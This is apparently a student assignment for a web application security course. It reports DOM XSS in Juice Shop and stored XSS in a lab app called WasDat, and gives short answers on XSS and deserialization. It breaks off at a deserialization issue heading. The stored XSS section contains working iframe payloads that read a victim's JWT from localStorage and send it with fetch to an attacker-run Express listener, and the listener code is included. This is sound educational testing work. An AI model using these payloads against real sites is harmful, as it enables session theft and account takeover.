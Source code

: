 # Assignment 4

Student ID: AC3837

Student name: Thanaphon Sombunkaeo

Group ID: TTV19S1

## First part A7:2017 Cross-site scripting (10 pts)

1. [Reading report] RWBH Chapter 7: Cross-Site Scripting (pp. 55-70) (3 pts) 

   - What factors make XSS vulnerabilities more critical and why (max 2 points, 1 point per factor)
  - It can read the DOM element or cookies that might contain the sensitive data of user and attacker can send it to them.
     - The malicious script can speard to other user. According to the Myspace example in the book, the malicious script can copy the to user's profile and when another user visite the victim profile, they will also infected by that malicious script.
   - What are the two main types of XSS and how do they differ from each other? (1 point)
     - The two main types of XSS are reflected XSS and stored XSS. The difference is that reflected XSS occur when victim open the link that contains the malicious script on the user's web browser (happend on user's web browser). In contrast, stored XSS is an injection that attacker inject malicious scripts on the server (happend on server) such as some field in the database.
   
2. [Issue report] **Target => Juice Shop**: DOM XSS (2 pts)

   **Title:** Attcker enable to perform DOM XSS to search input.

   **Description:** Attacker can fill in javascript on seacrh input that will be appended to the query pamater. Web app use that search term to display in HTML which means that javascript will be executing. In this case, attacker try to alter "xss" that embeded in iframe.

   **Step to produce:**

   - Go to `localhost:3000/#/` 

   - Paste and enter the following search term in to search input.

     ```html
     <iframe src="javascript:alert(`xss`)">
     ```

   - Here is the result

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 06.10.29.png" alt="Screen Shot 2565-02-09 at 06.10.29" style="zoom:50%;" />

   **Impact estimation:** Medium serverity because attacker can embeded the malicious script in th search term then sent this link to some user. The scipt might try to get sensitive data such as cookie and send back to attcker's server.

   **Mitigation:**

   - Sanitize the character of search input so the search term will not contains angle bracket, quote. That means attacker cannot injtec the HTML to embeded the malicious javascript.

3. [Issue report] **Target => WasDat**: Stored XSS w/ token capture (max 5 points) 

   **Title:** Attcker can perform stored XSS to capture the JWT of victim.

   **Description:** Attcker can inject the body of new article feature to embeded the javscript that get the JWT of victim from local storage and then sent it to attacker's server.

   **Step to produce:**

   - Log in as any user and create new article in `/#/editor`

   - Fill in any title, article about, and tags but fill in the body of article as shown below

     ```html
     <iframe src="javascript:alert(`some payload`)">
     ```

     This script will be execute and alert "some payload" when user view article.

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 06.39.20.png" alt="Screen Shot 2565-02-09 at 06.39.20" style="zoom:50%;" />

   - In order to capture JWT of use we just alert the `window.localStorage.id_token` as shown below (create new article with the following body)

     ```html
     <iframe src="javascript:alert(window.localStorage.id_token)">
     ```

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 08.39.11.png" alt="Screen Shot 2565-02-09 at 08.39.11" style="zoom:50%;" />

     When user view this article, it will alert the JWT of user.

   - Create simple express server run on port 5050

     ```javascript
     const express = require('express')
     const app = express()
     const port = 5050
     
     app.get('/attack', (req, res) => {
       console.log(req.query.JWT)
       res.send(`JWT is ${req.query.JWT}`)
     })
     
     app.listen(port, () => {
       console.log(`Example app listening on port ${port}`)
     })
     ```

   - Create new article with following body to make the HTTP request to server and send JWT in the parameter

     ```html
     <iframe src="javascript:var url = new URL('http://localhost:5050/attack');var params={JWT:window.localStorage.id_token};url.search = new URLSearchParams(params).toString();fetch(url)">
     ```

   - After user view the article, we can capture the victim's JWT from console log as shown below

     <img src="/Users/boyplus/Desktop/CS/JAMK/Web-App-Security/Week4/Screenshot/Screen Shot 2565-02-09 at 09.46.16.png" alt="Screen Shot 2565-02-09 at 09.46.16" style="zoom:50%;" />

   **Impact estimation:** High serverity because attacker can capture the JWT of user whenever user view the article that attacker create. That means attacker can control the victim's account.

   **Mitigation:**

   - Sanitize every input field to prevent the XSS
   - use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way we intend.

   

## Second part A8:2017 Insecure deserialization (10 pts)

1. [Watch and answer] (3 pts) 

   - Based on lecture videos try to explain the terms serialization and deserialization used in computer science

     Serialization is a process of converting the state of object into a byte stream that might store on file, memory, or database. Deserialization is a reverse of serialization which means it is a mechanism that use the byte stream to create the actual object in the particular object. Benifits of serialization is that we can save the state of object and can send the byte stream across the network.

     The vulnerabilities that might be enable is when attacker manipulate the serialized object such as replace a serialized object with an object of different class. That means attacker can pass harmful data into application.

     The different of serialization between programming language is the type of serialization file. For example, java will convert to .ser and python might convert to .picl (in case we use pickle library)

2. [Issue report] WasDat Insecure Deserialization (7 pts)

